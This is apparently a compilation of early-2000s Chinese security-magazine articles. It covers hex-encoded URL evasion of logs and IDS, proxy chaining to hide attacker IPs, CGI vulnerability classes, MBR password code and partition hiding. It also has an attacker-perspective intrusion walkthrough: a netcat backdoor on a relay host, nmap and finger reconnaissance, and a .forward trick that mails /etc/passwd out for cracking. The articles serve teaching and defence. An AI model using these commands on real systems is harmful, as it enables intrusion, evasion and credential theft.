这个请求会产生出我们上面看见的日志信息。入侵者可以通过将编码为十六进制 ASCII 字节的方法来改变请求。在上面的例子里，msadc 这行信息可以被十六进制 ASCII 编码成 6D 73 61 64 63。你可以使用 Windows Charmap 程序来做快速的 ASCII-to-hex 编码转换。上面的 HTTP 请求，重新使用十六进制编码的格式输入后，显示为如下的信息：

```
root@localhost # nc - n 10.0.2.55 80
```

```
GET /%6D%73%61%64%63 HTTP/1.0
```

IIS 的日志文件则显示为：

07 10 39 10.0.2.31 GET /msadc/ 302

请你记住这个日志和我们刚才没有对请求进行编码的时候产生的日志是完全一模一样的。所以在这个事例里，编码并没有帮助攻击者。不过，让我们来看看在 Apache 的日志中同样的入侵告诉我们了一个不同的故事。入侵者用来检查已存在的 CGI 脚本漏洞的命令列在了下面，紧跟着的是同样的命令，只是经过了十六进制编码：

```
root@localhost # nc - n 10.0.0.2 80
```

```
HEAD /cgi - bin/test - cgi HTTP/1.0
```

```
root@localhost # nc - n 10.0.0.2 80
```

```
HEAD /%63%67%69 - bin/test - %63%67%69 HTTP/1.0
```

现在再让我们瞧瞧 access_log 文件：

10.10.10.10 - - 18/Oct/2000 08 22 47 - 0700 " HEAD /cgi - bin/test - cgi HTTP/1.0" 200 0

10.10.10.10 - - 18/Oct/2000 08 23 47 - 0700 " HEAD /%63%67%69 - bin/test - %63%67%69 HTTP/1.0" 200 0

记住在这两个事例中，状态码 200 告诉我们这个命令成功执行并且顺利完成。无论如何，在第二个事例中，经过十六进制编码的请求胜于没经过编码的原文。如果我们依赖于以前的传统模板匹配模式来发觉这次攻击的话，我们肯定会失败。很多入侵检测系统同样是使用非智能的模板匹配模式来检测攻击，而且一些没有进行十六进制编码 URLs 来完成模板匹配。所有网络管理员都应该意识到这个知名的掩饰技巧，并且他们应该选择那些足够聪明来覆盖这些十六进制编码请求的入侵检测软件。

## 代理服务器

隐藏攻击对于攻击者来说可能是至关紧要的，但模糊攻击的来源则更为重要一些。如果攻击者可以掩饰他们的 IP 源地址，他们便可以放心入侵任何主机，而不用担心法律问题。其中一个入侵者用来掩饰自己源地址的方法就是使用代理服务器（俗称“肉鸡”）。

代理服务器的作用是合理地将各种不同协议过滤进一个单独的访问点上。具有代表性的例子就是，一个互连网用户被迫通过一个代理服务器来访问互连网，这可以让网络管理员对用户的内部和外部的访问限权有更大的管理性。一个用户连接到代理服务器上，然后继续连接到所请求的目的地上。这个目的地服务器则把请求方的地址记录为代理服务器的主机地址，而不是记录真正发起请求的主机地址。

不幸的是，一些代理服务器有时会不注意地放置在互连网上。（你可以到 Proxys-4 去看看，里面全部是这些不注意配置的代理服务器。）这些服务器有时存在很多漏洞，所以任何互连网用户都可以连接到代理服务器上。当互连网用户通过代理服务器连接到一台服务器上时，被记录在日志上的地址则是代理服务器的，而不是这个互连网用户的地址。一个恶意攻击者可能出现在受害者的服务器的日志上，而他的 IP 则是一台“清白的”代理服务器的地址。让我们来看一看。

下面是在入侵者和日志上所出现的东西，我们看见入侵者请求的信息，我们还可以看见请求被记录在日志上的样子：

攻击者

```
root@10.1.1.1 / # nc - v 10.8.8.8 80
```

HEAD / HTTP/1.0

日志文件

```
10.1.1.1 - - 18/Oct/2000 03 31 58 - 0700 " HEAD / HTTP/1.0" 200 0
```

下面还是在入侵者和日志上所出现的东西，攻击者使用的是同样的请求，不过这回他是通过代理服务器来提交这些请求的。

攻击者

```
root@10.1.1.1 / # nc - v 216.234.161.83 80
HEAD http://10.8.8.8/ HTTP/1.0
```

日志文件

```
216.234.161.83 - - 18/Oct/2000 03 39 29 - 0700 " HEAD / HTTP/1.1" 200 0
```

从这个例子中我们可以看出，在网站服务器所建立的日志文件中，显示的是代理服务器的 IP 地址 216.234.161.83 (proxy.proxyspace.com) 而不是攻击者的 IP 地址 10.1.1.1。在这个例子里，攻击者成功地隐藏了从自己到受害主机的 IP 地址。如果代理服务器的网络管理员合作的话，这个受害主机的管理员可以顺着轨迹来找到真正的攻击地址。因为大部分代理服务器都有保存着非常详细的日志，所以这个攻击者的原始 IP 地址应该会出现在这个代理服务器的日志文件里。不过不幸的是，这里就是这个肮脏的诡计最狡猾的地方：攻击者可以“连接”多个代理服务器之后再进行攻击。为了判断攻击者的原始地址，管理员或法律工作者必须取得所有代理服务器管理员的合作才行。用来连接代理服务器的方法在黑客圈里非常流行，而且现在还出现了一些全自动的工具来帮助他们完成这些工作，例如 Windows 下的 SocksChain。

## SSL

SSL-enabled 服务器不是被网络入侵检测系统控制的。在端口 80 (HTTP) 和端口 443 (HTTPS) 之间给攻击者一个选择，并且攻击者将会总是选择 443。这其实只是加密通讯的一面影响。你可以使用网站服务器的日志文件来监视端口 443 的请求。

## 总结

我们展示了一小部分常见的网页攻击者所使用的技巧。不用说，这个技巧的名单是局限于黑客的创造力及想象力。像十六进制编码这种技巧并不是只用于欺骗日志文件：他们可以同样欺骗网页服务器的 URL 分析机制，也就是说可能会引发一些例如网络脚本原代码泄露之类的漏洞。攻击者有些时候使用多重代理服务器来扫描和攻击，这样使管理员寻找攻击者的源地址变得非常困难。而且，SSL 有时也为“安全入侵”铺了路。

> 防患于未然，一点点异常都值得我们留心，疏而不漏，才是安全的最高境界。

## CGI 安全概述

经过一段时间的研究，对目前比较流行的 CGI 语言有了比较深入的理解，随着理解的加深，也越来越关注 CGI 的安全问题。在这里和大家讨论一下。

## 1. 什么是 CGI?

不要奇怪，有相当一部分人对 CGI 的概念还比较模糊，他们眼中的 CGI 就是 Perl CGI，其实 CGI 是 Common Gateway Interface（公用网关接口）的简称，并不特指一种语言。事实上，几乎任何支持标准输入输出的语言都可以称为 CGI 语言，如 Perl、PHP、C、C++ 等都可以称为 CGI 语言。

## 2. 什么是 CGI 安全？

这里所说的 CGI 安全，主要包括两个方面，一是 Web 服务器的安全，一是 CGI 语言的安全（其实对于解释型 CGI 语言，还涉及到解释器的安全，不过由于它在 CGI 安全中所占的比例不大，所以我们就不考虑了）。对于不同的 CGI 语言，我们所说的 CGI 安全可能有些不同，比如说对于 ASP 和 JSP，我们所说的 CGI 安全主要是指 Web 服务器的安全。而对于 PHP 和 Perl，我们所说的 CGI 安全就主要是指 CGI 语言的安全。

## 3. CGI 存在什么安全问题？

既然 CGI 安全包括两个方面，那我们就分别从这两个方面来介绍一下 CGI 的安全性，下面依次介绍 Web 服务器的安全和 CGI 语言的安全。

Web 服务器的安全问题主要包括两个方面，一是 Web 服务器软件编制中的 BUG，二是服务器配置错误。这可能导致 CGI 源代码泄露，物理路径信息泄露，系统敏感信息泄露或远程执行任意指令。

下面主要讨论一下 CGI 语言的安全问题。由于 CGI 语言的复杂性，所以这方面的安全问题也比较多，参考 Securityfocus 关于漏洞起因的分类，我们可以将 CGI 语言漏洞分为以下几类：

- 配置错误

这里所说的配置错误主要指 CGI 程序和数据文件的权限设置不当，这可能导致 CGI 源代码或敏感信息泄露。还有一个经常犯的错误就是安装完 CGI 程序后没有删除安装脚本，这样攻击者就可能远程重置数据。前些日子“XX 大联盟”论坛多次被黑就是这个低级错误所致。

- 边界条件错误

这个错误主要针对 C 语言编写的 CGI，利用这个错误，攻击者可能发起缓冲区溢出攻击，从而提升权限。

- 访问验证错误

这个问题主要是因为用于验证的条件不足以确定用户的身份而造成的，经常会导致未经授权访问，修改甚至删除没有访问权限的内容。用于确定用户身份的方法一般有两种，一是帐号和密码，一是 Session 认证。而不安全的认证方法包括 userid 认证，Cookie 认证等等。

- 来源验证错误

比较常见的利用这种错误进行攻击的方法就是 DoS，也就是拒绝服务攻击，如我们知道的灌水机，就是利用 CGI 程序没有对文章的来源进行验证，从而不间断地发文章，最后导致服务器硬盘充满而挂起。

- 输入验证错误

这种错误导致的安全问题最多，主要是因为没有过滤特殊字符。比如说，没有过滤“%20”造成的畸形注册；没有过滤“../”经常造成泄露系统文件，没有过滤“$”经常导致泄露网页中的敏感信息；没有过滤“`”经常导致执行任意系统指令；没有过滤“|”或“\t”经常导致文本文件攻击；没有过滤“”和“#”经常导致 SQL 数据库攻击；没有过滤“<”和“>”导致的 Cross-Site Scripting 攻击等。

- 意外情况处理失败

这种错误也很常见，如没有检查文件是否存在就直接打开设备文件导致拒绝服务，没有检查文件是否存在就打开文件提取内容进行比较而绕过验证，上下文攻击导致执行任意代码等。

- 策略错误

这种错误主要是由于编制 CGI 程序的程序员的决策造成的。如原始密码生成机制脆弱，导致穷举密码在 Cookie 中明文存放帐号密码，导致敏感信息泄露，使用与 CGI 程序不同的扩展名存储敏感信息导致该文件被直接下载，丢失密码，模块在确认用户身份之后直接让用户修改密码而不是把密码发到用户的注册信箱。登陆时采用帐号和加密后的密码进行认证，导致攻击者不需要知道用户的原始密码就能够登陆等。

- 习惯问题

程序员的习惯也可能导致安全问题，如使用某些文本编辑器修改 CGI 程序时，经常会生成“.bak”文件，如果程序员编辑完后没有删除这些备份文件，则可能导致 CGI 源代码泄露。另外，如果程序员总喜欢把一些敏感信息（如帐号密码）放在 CGI 文件中的话，只要攻击者对该 CGI 文件有读权限（或者利用前面介绍的一些攻击方法）就可能导致敏感信息泄露。

- 使用错误

主要是一些函数的使用错误，如 Perl 中的“die”函数，如果没有在错误信息后面加上“\n”的话，就极可能导致物理路径泄露。

- 其它错误

此外，还有一些其它难以归类的错误，如“非 1 即 0”导致绕过认证的问题。

## 4. 如何让你的 CGI 更安全？

了解了 CGI 的安全问题，我们也该知道怎么加强 CGI 的安全了吧？下面简单总结一下作为参考：

- 使用最新版本的 Web 服务器，安装最新的补丁程序，正确配置服务器。
- 按照帮助文件正确安装 CGI 程序，删除不必要的安装文件和临时文件。
- 使用 C 编写 CGI 程序时，使用安全的函数。
- 使用安全有效的验证用户身份的方法。
- 验证用户的来源，防止用户短时间内过多动作。
- 推荐过滤“& ` " | * ~ < > ^ $ \n \r \t \0 # ../”。
- 注意处理好意外情况。
- 实现功能时制定安全合理的策略。
- 培养良好的编程习惯。
- 科学严谨的治学态度，避免“想当然”的错误。

## 微机加密心得


小编寄语：PC 机既然被称作个人电脑，自然就是其使用者的私人物品。电脑中往往存放着大量重要文件和使用者的隐私，就像日记一样，没人会希望外人随便翻看。如何保证在使用者不在的时候防止别人进入电脑呢？这就是本文的重点——计算机的加密。

文/sinbad

如何防止他人进入自己的计算机？怎样保护宿舍里公用机器上自己的文件？这些问题都是大家比较关心的，BBS 上也经常有相关的讨论。现在我把自己的一点心得体会 post 出来，与大家共享。

## 一、拒人于千里之外

防止别人进入系统最简单的方法就是修改 CMOS，设置开机密码，但通用密码的存在使这项功能形同虚设，所以说不太保险。

比较方便的就是借助软件 System Commander（以下简称 SC）来设置密码，SC 的强项是能使多个操作系统共存于硬盘，而且互相之间协调的很好。它之所以能做到这一点，是因为安装 SC 时，硬盘的 MBR（Master Boot Record，主引导扇区）及其他 0 磁道的扇区被作了修改，填充了大量 SC 引导各操作系统的代码，也就是说，你的机器已经交给 SC 了，在这里设置密码比较好，适合于你的个人电脑。如果是宿舍里的公用电脑，用 SC 管理着 Win98 和 Linux，没有设密码。为了避免没有 root 权限的人按错键进入 Linux，而导致无法正常关机，通常的做法是另开一个 SC 帐号，为其定制“O/S Access Menu”，但这样又增加了每次都要根据帐号输入密码的麻烦。如何进入 Win98 不需要密码，而进入 Linux 要密码呢？其实很简单，只要新建一个帐号 AutoLogin，把 Linux 从其“O/S Access Menu”中去掉，这样其他人不需密码即可使用 Win98，而 Linux 只有 Administrator 才能进入。

SC 是一个很好的工具软件，但却属于“请神容易送神难”的那种。要把它干干净净地卸掉，需要对硬盘有一定的了解。前面已经提到，SC 修改了硬盘 0 面 0 磁道包括 MBR 的前 6 个扇区。第二扇区是引导各主分区的程序，如果把 C 盘根目录下的 Syscmndr.sys 文件改名，这段程序将被执行，出现一个分区启动菜单，我觉得这比 OS2 的 Boot Manager 简洁多了。第 3 扇区是个备份，第 4、5、6 扇区填充了大量的 0，不知作什么用的。这后 5 个扇区用 Debug 的 f 命令全部填 0 即可，至于 MBR 就在 DOS 下打入“FDISK/MBR”，MBR 的代码部分就恢复了。

把 SC 从 0 磁道赶走以后，就可以操起 Debug，自己编写加密代码了。这时你必须清楚 DOS 的启动过程，并能够读懂硬盘 MBR 中代码部分和分区表各字节项的含义。我在这里简要介绍一下，详细内容请参考有关病毒和加解密的书籍。机器启动时，硬件检测成功后，通过 INT 19H 将硬盘的 MBR 读到内存指定区域 07C00H 中，然后转到其中执行，根据分区表的信息确定启动哪个分区内的操作系统。MBR 中有 206 个字节为空，插入相应的代码之后就可以在启动操作系统之前实现加密。下面一小段程序可以观察 MBR 的内容：

```
C:\>debug
- a
1369 0100 mov ax 201
1369 0103 mov cx 1
1369 0106 mov dx 80
1369 0109 mov bx 200
1369 010C int 13
1369 010E int 20
1369 0110
- g
Program terminated normally
```

- d200

MBR 一共 512 字节，用 d 命令 4 次看完，你会发现中间有一大段为 00 的部分，这将是我们加密程序的所在之处。用 u 命令反汇编，可以看到两个 jmp 指令，找一个修改为 jmp 到加密程序段开始处，然后在程序段末尾再 jmp 回来就天衣无缝了。在扇区内写代码，要注意的是当时地址与执行时地址之间的换算关系，搞不清楚就死机了。

下面将介绍如何把一段加密代码植入 MBR 的详细过程，完成以后，每次机器必须输入字母 $ 才能引导 DOS，按其它键均死机。运行上面那段程序把 MBR 读入内存，然后按照以下步骤实现（要输入的部分是黑体）：

```
- u218
136A 0218 EA1D060000 JMP 0000:061D
```

```
- a218
136A 0218 CALL 0000:06E0 （通过调用子程序来执行加密代码）
```

```
- a2e0
136A 02E0 MOV AH 0
136A 02E2 INT 16 从键盘接收一个字符
136A 02E4 CMP AH 24 是 $ 吗？
136A 02E7 JE 02EB 是，返回
136A 02E9 JMP 02E9 不是，进入死循环
136A 02EB RET
136A 02EC
```

最后用 INT 13H 的写功能将内容写回 MBR 就大功告成了。

有一点需要说明，装了 Win95/98 之后，MBR 中为空的部分就不到 206 字节了。所以上面从 2e0 处开始写代码可能不适合于你的硬盘，我是装完 Win95/98 之后，把 DOS 的 MBR 代码部分找回来，把新的给覆盖了。这样做可以获得更多的空余空间来嵌入加密代码，对操作系统又没什么影响，比较不错。现在 DOS 不多见了，需要的话给我写信。我曾经写了一段“十位密码确认”的代码，由于设计了比较好看的界面，MBR 放不下，还利用了 0 磁道的第 2 扇区。过几天整理一下贴出来。

## 二、井水不犯河水

大部分宿舍里的计算机都是公用的，如何保障个人隐私是一个很棘手的难题。以前的 DOS 时代，大家通过修改 FAT（File Allocation Table，文件分配表）和 RDT（Root Directory Table，根目录表）来实现对自己目录的加密，还要用到一些磁盘工具，很是麻烦。如今是 Win98 了，也有相关的加密工具出现。以前我曾在 Win95 下用过对一个目录加密的软件，叫做 007，它好象把加密的目录作备份，如果文件太多，很是浪费硬盘空间。有没有一个既简单且加密效果又好的办法呢？

如果你经常折腾硬盘，不可能没用过 Partition Magic 吧，它有个隐藏分区的功能比较不错。经过一段时间的钻研，我终于搞明白了它的实现原理，现在就可以脱离 Partition Magic，提出一个针对宿舍里公用微机的解决方案。

这个方案综合了上面所讲的在 MBR 中嵌入代码的内容，大体如下：在扩展分区中除了 D 盘放公用程序，再划出 8 个逻辑盘给 8 个用户（一个 100M 总共才 800M，对大硬盘来说无所谓）。启动 Win98 前 MBR 中的代码先被执行，要求输入用户名和密码，确认后使该用户的逻辑盘变为可见，其他的则处于隐藏状态。这样每个用户在进入 Win98 后，都拥有各自的 E 盘来存放自己的个人文件，保密性比较好。下面分析一下如何实现对逻辑盘的隐藏：

我们知道，硬盘分区表位于 MBR 的 1BEH 与 1FDH 处，占 64 个字节，可以容纳 4 个分区的信息，每个表项占 16 个字节，其含义见表：

| 偏移量 | 含义 |
|---|---|
| 0 | 引导标志 80h 表示活动分区，00h 表示非活动分区，其他值非法 |
| 1 | 本分区的起始磁头号 |
| 2 - 3 | 本分区的起始扇区号和起始柱号 |
| 4 | 分区类型 0B - Win95 FAT32；06 - DOS FAT16；05 - 扩展 DOS |
| 5 | 本分区的结束磁头号 |
| 6 - 7 | 本分区的结束扇区号和结束柱号 |
| 8 - B | 本分区的相对扇区号 |
| C - F | 本分区的扇区数 |

从表中可见，扩展 DOS 分区标识号为 05，它在分区表中占有一项。我机器上该项的内容如下：

```
00 00 41 31 05 3F FF FD C0 C3 12 00 C0 1C 2C 00
```

在偏移 2 - 3 处的 3141H 是整个扩展分区的起始扇区号和起始柱号，用 INT 13H 将该起始扇区读进内存，可以发现该扇区与 MBR 类似，在偏移 1BEH 到 1DDH 处，记录了两个分区表项：

```
00 01 41 31 0B 3F BF 61 3F 00 00 00 81 C3 12 00
00 00 81 62 05 3F FF FD C0 C3 12 00 00 59 19 00
```

第一表项对应于本分区，第二表项则对应于下一分区，各字节含义同上。再读入 6281H 处的第一扇区，两个分区表项为：

```
00 01 81 62 0B 3F FF FD 3F 00 00 00 C1 58 19 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

可见，该硬盘有 2 个逻辑分区，且都是 FAT32 的。各逻辑分区是通过各自第一扇区的分区信息表串起来形成了一个链式结构，使得 DOS 能够管理多个逻辑分区。如果有 8 个逻辑分区，就有 8 个扇区记录了分区信息，DOS 引导时（不管是从软盘启动还是从硬盘启动），都将搜索这条链，为各逻辑盘建立磁盘基数表。其实，DOS 的这种链表式数据结构到处可见，在设备管理中、在内存管理中、在文件管理中，可谓比比皆是，大家应该很熟悉的。

Partition Magic 隐藏分区的原理很简单，就是把第 4 偏移处的分区标识符改成了 1B，且仅改了第一表项，作为指针的第二表项没有变化。这样，分区标识符为 1B 的逻辑分区由于 DOS 不可认，所以就处于隐藏状态。分区标识符占一个字节 00 - FF，只要你选择得当，不要与其他操作系统发生冲突，改为其他值，Partition Magic 也认不出来。

写到这里，明白了隐藏分区的原理，就看如何发挥汇编水平，写出短小精悍的代码了。

以上是我平时玩电脑中的一点心得体会，当中定有许多不足及错误之处，请各路高人不吝指教。

## IP入侵

### 案例分析

编者按：已知一个网站的域名，利用 PING 工具获得它的 IP 地址，再利用端口扫描寻找漏洞并入侵服务器是当前黑客攻击网站的一种常用手段，其对象不只是针对门户和商业网站，也包括个人网站。要杜绝这种安全隐患，首先应该了解入侵的简单原理。为了更清楚地说明 IP 入侵的问题，本章就从一个入侵者的角度出发，简要阐述一下该类入侵过程。

文/姚远

## IP 入侵原理篇

入侵者在准备入侵某系统时，首先要对它进行端口扫描。所谓端口扫描，就是向一个目标系统的大量已知端口（这里的已知端口是指端口扫描器库中已存在的一个端口列表）发送信息包，来判断目标系统打开了哪些服务，其各自的版本是什么。入侵者通过这种方法寻找相应的安全漏洞进行攻击。在被扫描的端口中，许多尚未被利用，系统没有打开对这类端口的相应服务，合法用户不会来连接这种端口。通常入侵者在连接这些端口之前，也不能确认它的服务是否开放。因此，当那些未开放端口频繁出现来自一个或几个 IP 的连接请求，就可能引起系统管理员的高度注意，有经验的管理员应该明白，这多半是一场大规模攻击的前奏。

端口扫描的方式有很多种，我们常用的是 TCPScan 和 UDPScan 方式。

- 1. TCPScan 是最基本的扫描方式，它尝试利用扫描工具与感兴趣的目标计算机的每一个端口进行连接。如果端口处于侦听状态，那么连接就能成功。否则，这个端口是不能用的，即没有提供服务。这种扫描方式的最大优点是对权限没有要求，也就是说，系统中的任何用户都有权利使用它。它的另一个优点是速度较快，缺点是系统管理员很容易发觉并将其过滤掉。

- 2. UDPScan 扫描较之 TCPScan 困难一些，且可信度不如 TCPScan 高，速度也比较慢。使用这种方法的前提是网络连接足够好，也就是说网速够快。其优点是不容易引起系统管理员的警觉，但也不是百分之百保险。

端口扫描工具种类很多，对 Windows 用户而言，比较好的选择是 Superscan 和 Aatools。Superscan 速度快也轻便，Aatools 的功能较之 Superscan 要全面一些，包括端口扫描，分析等很多功能。因为是菜单界面，虽然是英文版，用起来也很方便，另外具有很多功能，且可以用作代理扫描。

对 Linux 用户而言，最好用的工具是 Nmap。Nmap 是在免费软件基金会的 GNU General Public License GPL 下发布的一款端口扫描工具，扫描功能有 Ping 扫描（Ping Sweeping）、端口扫描（Port Scanning）、隐蔽扫描（Stealth Scanning）、UDP 扫描（UDP Scanning）、操作系统识别（OS Fingerprinting）、Ident 扫描（Ident Scanning）等。该工具在 www.insecure.org/nmap 站点可以免费下载。

利用扫描来发现端口，是因为安全隐患存在于这些端口提供的服务中。

比如，Telnet 23/tcp 表示远程登陆服务，它授权你远程登录到该主机，这个服务是非常危险的。一般情况下，入侵者可利用它清楚地了解目标机器的系统及系统版本。如果它提供

## IP 入侵过程篇

匿名登录，即允许使用 FTP 方式，入侵者就可以在服务器和客户端之间传送敏感或危险数据。

Ftp 21/Tcp 服务和 Telnet 一样，在目标系统已开通“允许匿名登录服务”的情况下，它支持匿名登录服务，在有的机器上它还允许你执行远程命令。入侵者可以利用这个缺陷，轻易拿到 Root 权限。不过此类情况很少。有时入侵方可能用它获得一个可用的帐号 Guest，再利用帐号得到 Root。

Finger 79/Tcp 服务可以让入侵者获得一些有用信息。例如用它来得到用户信息、查看机器运行情况等，甚至可以利用所获得的 ID 去猜测密码。这种猜测方法相当原始，但仍然有一些入侵者通过这个方式来获得用户权限。

入侵系统有很多步骤，首要的是明确目标，也就是常说的“踩点”。首先，我们假设一个门户网站，其地址是*.com.cn，一般情况下，这个站点不会是免费站点，因为有独立域名的站点才会有自己的服务器。入侵者使用 Windows98 系统，他通过 PING 工具（Ping 代表 Packet Internet Groper，即分组网间搜索器）得到目标主机的 IP 地址，再对这个 IP 段进行端口扫描（注：下面所有的 IP 地址均为作者虚拟）。

首先，入侵者在 MSDOS 或 Windows 系统开始菜单的运行对话框里输入“ping *.*.*.com”命令，Ping 工具是系统默认的工具，它将把目标网站的 IP 地址返回给使用者。这里*.com 表示选中的网站域名。我们以 Sohu 网站为例，当键入“ping www.sohu.com”命令，回车或按运行后，窗口出现图 1 的结果。


图 1

Ping 命令将返回目标主机的 IP 地址 61.135.134.4。这就是一个用 Ping 工具找 IP 的例子。在本文中，我们假设入侵网站域名为 www.name.com，IP 地址返回值是 100.100.100.100。此时，入侵者确信已经成功地连接到目标主机，下一步就是对它进行端口扫描。一般来说，有经验的黑客在入侵某台服务器前，会使用曾经入侵过的服务器来作为跳板，也就是我们通常所说的“肉鸡”，目的是避免在目标机器留下自己的真实 IP 而被查获。

这里，我们假设入侵者在本次入侵前，已经获得了一台服务器的权限。他在中间机器的 37337 端口预留一个 Suid 的 Shell。Shell 是用户与操作系统的操作接口，可以将它理解为一种权限，就像 Root 那样的最高权限。37337 这个数字本身没有什么意义，或者只是入侵者喜欢 3 和 7，在获得 Root 权限后，随手打开了 37337 端口，便于他此后非法登录该服务器提供方便。37337 端口就是我们常说的“后门”。

此时，入侵者将先登录这台中间服务器。他在 MSDOS 或是 Windows 窗口的运行弹出框中建入以下命令行：

```
C:\>nc *.*.*.*.*.*.*.* 37337
```

NC 是一种叫作 Netcat 的木马的命令方式，入侵者可以使用木马，前提是他已经将该木马植入某机器并激活。Telnet 到曾经入侵过的服务器某个端口，将该台机器操纵于手，机器为入侵者所操纵，就成为黑客们常说的“肉鸡”。现在，入侵者利用 Netcat 木马，*.*.*.*.*.*.*.* 37337。*.*.*.*.*.*.*.* 表示这台中间服务器的 IP 地址，最后的 37337 是被用来作为中间服务器的主机上的一个端口号，于是便登录到这台中间服务器上。

由于该台中间服务器使用 Linux 操作平台，入侵者会在这台“肉鸡”上装好自己的工具箱。工具箱里一般含有合适的工具。Nmap 就是入侵者最常用的 Unix/Linux 平台扫描器。入侵者用 Nmap 扫描欲攻击的下一个系统，此时将开始他的第一步扫描（注意：此时他使用的是中间服务器的 Linux，而不是原来的 Windows98 系统了）。

键入命令：

```
# ./nmap -sT -O 100.100.100.100
```

这行命令使用如 `-sT`、`-O` 的开关参数，具体意义和使用方法可以在 Nmap 的 help 中找到。屏幕显示下列数据，Nmap 的扫描结果清晰又有条理地出现在窗口上：

```
Starting nmap V. 2.3BETA12 by Fyodor fyodor@dhc.com , www.insecure.org/nmap/ <http://www.insecure.org/nmap/>
Interesting ports on www.name.com 100.100.100.100
Port State Protocol Service
7 open tcp echo
9 open tcp discard
19 open tcp chargen
21 open tcp ftp
23 open tcp telnet
25 open tcp smtp
37 open tcp time
79 open tcp finger
80 open tcp http
111 open tcp sunrpc
443 open tcp https
512 open tcp exec
513 open tcp login
514 open tcp shell
515 open tcp printer
540 open tcp uucp
3306 open tcp mysql
4045 open tcp lockd

TCP Sequence Prediction Class=random positive increments
Difficulty=55346 Worthy challenge
No OS matches for host If you know what OS is running on it
... ... ... ...
... ... ... ...
Nmap run completed - 1 IP address 1 host up scanned in 17 seconds
```

读者最关心的可能是获得的这段中间数据有什么价值。其实，掌握了端口的服务原理，就能在上面端口扫描结果中发现可疑之处。此时，入侵者分析得出：可疑服务 finger、sunrpc、系统入口 ftp、telnet、http、shell(rsh)、login(rlogin)、smtp、exec(reexec)。

根据端口服务，入侵者发现了一些可疑端口，如 Finger。因为当前使用的是中间服务器的 Linux 系统，于是采用 Linux 的操作命令。直接输入：

```
# finger root@name
```

屏幕显示下列结果：

```
# finger root@name
name
Login Name TTY Idle When Where
root Super - User console 1 Fri 10 03 0
root Super - User pts/6 6 Fri 11 08 192.168.0.14
root Super - User pts/7 Fri 12 11 dc
root Super - User pts/8 1 Fri 10 34 0.0
root Super - User pts/1 4 Fri 12 15 0.0
root Super - User pts/11 3 16 Fri 09 46 192.168.0.18
root Super - User pts/10 Fri 07 08 192.168.0.11
root Super - User pts/12 Fri 09 40 192.168.0.15
root Super - User pts/4 Fri 08 46 192.168.0.17
root Super - User pts/13 4 Fri 10 26 0.0
root Super - User pts/19 1 Fri 13 51 0.0
```

```
# rpcinfo -p name.com
```

| program | vers | proto | port | service |
|---|---|---|---|---|
| 100000 | 4 | tcp | 111 | portmapper |
| 100000 | 3 | tcp | 111 | portmapper |
| 100000 | 2 | tcp | 111 | portmapper |
| … | … | | | |

值得一提的是，Rpc 服务通常会在 Inetd 里面启动，当你在 Linux 下观看 `/etc/inetd.conf` 时，里面会有以下的文字：

```
rexd/1 tli rpc/tcp wait root /usr/sbin/rpc.rexd rpc.rexd
```

Rpc 服务很容易被入侵者利用，管理员可以在这行文字前加上 `#`，再使用 `killall -HUP inetd` 将 Rpc 服务取消。现在入侵者回到 MS-DOS 下，开始 Ftp 目标网站，尝试对服务器进行匿名登录：

```
C:\>ftp name.com
Connected to name.com
220 cc FTP server Version wu-2.4 1 Fri May 12 21 15 23 CST 1997 ready.
Name: anonymous
331 Guest login ok , send your complete e-mail address as password.
Password:
```

其中的用户名可以是 Superman 或其它，只要匿名即可。密码姑且用 aa@，你也可以任意键入一个。尔后，我们使用 Pwd 命令，看一下自己的位置，必须保证自己处于根目录下，如果不是，那就 `cd ..` 到根目录。

```
ftp> pwd
200 PORT command successful.
150 Opening ASCII mode data connection for /bin/ls.
无用的信息这里就不示范了
drwxr-xr-x 7 * * * * * * * * * * * 512 Oct 16 1997..
drwxr-xr-x 7 * * * * * * * * * * * 512 Oct 16 1997 ..
............
```

一些敏感信息过滤了，而后面的信息不用去理会它。从这段信息应该可以发现，`drwxr-xr-x` 根目录是可执行方式。需要说明的是，运用相关技术可利用 wu-2.4，anonymous 拿到 `/etc/passwd`，如果要入侵者发现这一点，他将做个 `.forward`：

```
ftp> bye
goodbye
# echo " |/bin/mail superman@name.com </etc/passwd" >good.forward
```

用 Echo 和输出重定向就 OK 了。接下来把 Good 上传到 www.name.com，跟上述同样的方式再次 Ftp 上去：

```
ftp> put good.forward
200 PORT command successful.
226 Transfer complete
ftp> bye
goodbye
```

此时，入侵者寄封信给这个帐号，然后它会寄回 `/etc/passwd` 文档给你，这是利用系统权限设置不完善的漏洞的入侵。系统会以为寄信人是个 Root，而这个 `/etc/passwd` 就是服务器上最敏感的东西——其中包括系统里的所有 ID 和密码。当然这些密码不以明文出现，它经过加密保护。入侵者接下来要做的就是使用暴力破解。他们用相同的加密方式，将大量词汇数字转换成 Passwd 的加密格式。一个个地破译出来，直到得出管理员的密码为止。

## IP 入侵总结篇

在上面的例子中，我们了解了一个入侵者通过后门进入服务器的过程。实际上，这种入侵并不是无法避免的。

如果一个入侵者用 TCPScan 方法扫描，系统管理员很容易发觉它并将其 IP 过滤掉。因为目标系统的 Logs 文件会显示一连串的连接和连接出错的服务消息，并且能很快使连接关闭。系统管理员应多注意自己的岗位信息，很多入侵就是钻了马虎的空子。当入侵者试图用通过 IP 去连接那些未知端口，防御措施是记录下这些发送探测信息包的 IP。入侵者喜欢在 Shell 上设置端口，或者也叫后门，以此来为非法进入一个服务器打开私人通道。针对这种情况，管理员应定期扫描自己的系统。查看是否无故出现了新端口。关闭没多大用处的端口。“少一个端口，少一份危险”绝不是危言耸听。本次的案例实际上是利用了管理员在权限设置上的疏忽，国内这样大意的管理员太多了。对策是升级它的 Ftp 版本，严格权限的设置。

## NetBIOS 入侵实战

小编寄语 NetBIOS 自诞生以来就成为许多其他网络应用程序的基础，而严格意义上，NetBIOS 是接入网络服务的接口标准。现在网络上的进攻方法层出不穷，下面看看小蓉的 NetBIOS 入侵实战。

文/小蓉

### 一、NetBIOS 及其危险浅谈

